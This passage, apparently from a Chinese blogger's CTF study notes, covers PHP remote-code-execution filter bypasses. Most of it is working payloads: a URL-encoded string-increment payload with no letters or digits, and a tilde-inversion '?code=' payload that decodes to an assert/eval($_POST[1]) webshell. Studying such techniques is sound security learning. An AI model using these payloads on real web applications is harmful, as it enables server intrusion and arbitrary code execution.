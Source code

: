 然后通过url编码

```cobol
%24_%3d%5b%5d%3b%24_%3d%40%22%24_%22%3b%24_%3d%24_%5b'!'%3d%3d'%40'%5d%3b%24___%3d%24_%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24___.%3d%24__%3b%24____%3d'_'%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24__%3d%24_%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24__%2b%2b%3b%24____.%3d%24__%3b%24_%3d%24%24____%3b%24___(%24_%5b_%5d)%3b
```

### 取反

```php
<?php
 
$c='phpinfo';
$d=urlencode(~$c);
echo $d;
?>
```

payload

```cobol
?code=(~%9E%8C%8C%9A%8D%8B)(~%D7%9A%89%9E%93%D7%DB%A0%AF%B0%AC%AB%A4%CE%A2%D6%D6);
 
eval($_POST[1])
```



现在目前学到的RCE 就总结在这里了 如果后面还存在 就继续加进去
